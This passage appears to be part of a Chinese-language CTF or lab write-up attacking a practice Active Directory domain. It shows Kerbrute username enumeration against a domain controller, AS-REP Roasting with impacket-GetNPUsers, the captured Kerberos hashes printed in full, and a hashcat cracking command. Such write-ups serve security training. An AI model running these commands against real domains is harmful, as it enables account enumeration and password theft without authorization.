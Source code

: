 连接数据库，将这些用户信息全都导出来：
![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/3c26bfb6e5bb8fbb.png)

域用户名枚举：

```
$ ./kerbrute_linux_amd64 userenum --dc 172.22.60.8 -d xiaorang.lab user.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 08/16/23 - Ronnie Flathers @ropnop

2023/08/16 23:21:30 >  Using KDC(s):
2023/08/16 23:21:30 >   172.22.60.8:88

2023/08/16 23:21:30 >  [+] VALID USERNAME:       administrator@xiaorang.lab
2023/08/16 23:21:30 >  [+] VALID USERNAME:       yangyan@xiaorang.lab
2023/08/16 23:21:30 >  [+] VALID USERNAME:       zhanghao@xiaorang.lab
2023/08/16 23:21:30 >  [+] VALID USERNAME:       chenfang@xiaorang.lab
2023/08/16 23:21:30 >  [+] VALID USERNAME:       zhangwei@xiaorang.lab
2023/08/16 23:21:30 >  [+] VALID USERNAME:       wangping@xiaorang.lab
2023/08/16 23:21:30 >  [+] VALID USERNAME:       wangkai@xiaorang.lab
2023/08/16 23:21:30 >  [+] VALID USERNAME:       zhangxin@xiaorang.lab
2023/08/16 23:21:30 >  [+] VALID USERNAME:       wangyun@xiaorang.lab
2023/08/16 23:21:30 >  Done! Tested 246 usernames (9 valid) in 0.039 seconds
```

使用 AS-REP Roasting 获取配置了 “不需要 Kerberos 预身份验证” 的用户响应，再使用 hashcat 进行离线爆破：

```
┌──(root㉿kali)-[~]
└─# proxychains4 -q impacket-GetNPUsers xiaorang.lab/ -dc-ip 172.22.60.8 -usersfile user.txt -format hashcat -outputfile hashes.txt
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User administrator@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User yangyan@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User zhanghao@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User chenfang@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User zhangwei@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User wangping@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User wangkai@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set

┌──(root㉿kali)-[~]
└─# cat hashes.txt
$krb5asrep$23$zhangxin@xiaorang.lab@XIAORANG.LAB:74da44061de3fcddd20bc328f32357e6$f4e3faa0f23a372b809313d94cfe04c423b0bf1950813a9a642007be949d625e160c0ff0d2e93a9a7ef8ea69b112ad6a86d494ae4c59fea203b04fad8708b5c6e192885b70e1d6bd7f51656fe0aa217c7b12f303d5af8bdd539904b0f1cb21dffa846439c1d0ba5e8badd00cc3ba9208e060fa430e3d4688abac43e3ecc4a14e0a683561e2da50dbf063adfb149e41c2c29e5f3fd4ec96c86adb5fe29fea60adfa4535c0b4ca99ac8aead814b17d047331ab16b94a4cfc25752d1a9c0898bc70b407a575d57be061e6d6be2e30afcc09aa9067022ebd92d58e17cd0b67f9fda85575bf7d8c99f75fe0a36972
$krb5asrep$23$wangyun@xiaorang.lab@XIAORANG.LAB:bedfc449e6105f699c5e642d3d5c07a5$a68e295c7c2c294830cd19d8b7e2412733debf965ece8226a3f6f31c9a2df81a6f875e08d85d05e3ec8d3c3be7efd7dc5a35494381b08c6d596bfa1e34b3cc535906b7a7b8ddf27661ae26f2de31151b42d087c21bdf1882d84556d812b65df3a3084f8abfc8edf835538a842a4368e35459cebf9e673f07780331b6849ece509dffd4faad0bb4df5243e049227e13442c7a2668962a52b00bed55a8783cfe0243881959d345efd4d134eb7df81a4b87f1c7358fd943c6294ed55131f7c19b4ec81b07a3782748d8c840d184ca98db97e24f1cbf4f763aa0ac26cea81cd1894944db0ef6304e7e84c48677ef

┌──(root㉿kali)-[~]
└─# hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt --show
```